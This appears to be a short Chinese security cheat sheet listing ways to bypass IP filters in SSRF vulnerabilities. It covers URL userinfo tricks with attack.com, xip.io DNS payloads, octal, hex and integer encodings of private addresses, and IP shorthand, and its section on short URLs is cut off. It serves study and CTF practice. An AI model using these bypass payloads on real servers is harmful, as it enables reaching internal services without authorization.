# 0x01 前言
通常SSRF里的绕过，是指对请求IP限制的绕过。

# 0x02 绕过方法汇总
## 法一： http基础认证
http基础认证 user@domain.com

情景一： 后端对url进行解析，然后根据解析得到的host结果进行过滤，限制好了只能调用一个固定的域名,如www.baidu.com下的内容

payload：
```
www.baidu.com@attack.com
```

## 法二：xip.io
传送门：http://xip.io/ 。它处理类似[ip].xip.io的dns解析请求时,返回的ip总是指向[ip]。

### 情景一
利用302跳转时，单纯请求 www.baidu.com。

payload1:
```
111.13.100.91.xip.io
```

### 情景二
利用302跳转时，后端对请求是否是内网地址做了过滤。

payload2:
```
http://内网ip.xip.io
```

## 法三：IP化妆
情景一： 后端进行了正则匹配的方法过滤内网ip：
```
    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```
可以对ip进行进制编码，从而绕过。比如对于 192.168.0.1

payload1:
```
    (1)、8进制格式：0300.0250.0.1

    (2)、16进制格式：0xC0.0xA8.0.1

    (3)、10进制整数格式：3232235521

    (4)、16进制整数格式：0xC0A80001

```

利用一些特殊缩写。比如对于：10.0.0.1

payload2：
```
10.1
```

## 法四： 短地址
情景：对于包含

# 0x03 Refference
+ [SSRF漏洞中绕过IP限制的几种方法总结 ](http://www.freebuf.com/articles/web/135342.html)
+ [math1as:CUIT-CTF WriteUp总结](http://www.math1as.com/index.php/archives/70/)